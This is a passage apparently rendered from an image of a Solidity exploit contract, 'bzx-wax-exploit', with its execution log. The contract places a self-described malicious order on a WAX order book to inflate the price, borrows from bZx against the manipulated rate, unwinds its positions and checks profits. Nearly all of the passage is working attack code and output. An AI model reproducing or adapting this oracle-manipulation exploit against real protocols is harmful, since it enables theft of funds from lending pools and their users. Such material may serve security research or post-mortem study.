```javascript
        printf("checking rates tokens=%.8u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    uint constant waxBidAmount = 1e8;
    uint constant ethOfferAmount = 10 ether;
    uint32 private orderId;
    function makeOrder() external {
        orderId = WAX_ORDER_BOOK.ethToTokenList().nextFreeId();
        
        uint kncRequired = WAX_ORDER_BOOK.calcKncStake(ethOfferAmount);
        printf("making malicious order kncRequired=%.u\n", abi.encode(KNC.decimals(), kncRequired));
        
        KNC.getFromUniswap(kncRequired);
        WAX.getFromBancor(1 ether);
        
        WAX.approve(address(WAX_ORDER_BOOK), waxBidAmount);
        KNC.approve(address(WAX_ORDER_BOOK), kncRequired);
        
        WAX_ORDER_BOOK.depositEther.value(ethOfferAmount)(address(this));
        WAX_ORDER_BOOK.depositToken(address(this), waxBidAmount);
        WAX_ORDER_BOOK.depositKncForFee(address(this), kncRequired);
        require(WAX_ORDER_BOOK.submitEthToTokenOrder(uint128(ethOfferAmount), uint128(waxBidAmount)));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_DAI, false, BZX_DAI.marketLiquidity(), DAI, WAX);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        require(WAX_ORDER_BOOK.cancelEthToTokenOrder(orderId));
        WAX_ORDER_BOOK.withdrawEther(WAX_ORDER_BOOK.makerFunds(address(this), KYBER_ETH));
        WAX_ORDER_BOOK.withdrawToken(WAX_ORDER_BOOK.makerFunds(address(this), WAX));
        WAX_ORDER_BOOK.withdrawKncFee(WAX_ORDER_BOOK.makerKnc(address(this)));
        DAI.giveAllToUniswap();
        KNC.giveAllToUniswap();
        WAX.giveAllToBancor();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        DAI.getFromUniswap(amount);
    }
}

/*
### running script "bzx-wax-exploit" at block 8455720
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=1.00000000 rate=0.000000000000000000 slippage=0.000000000000000000
##### calling: makeOrder()
making malicious order kncRequired=127.438017578344399080
##### calling: checkRates()
checking rates tokens=1.00000000 rate=10.000000000000000000 slippage=9.700000000000000000
##### calling: borrow()
collateral_required=232.02826470, interest_required=19750.481385867262370788
```
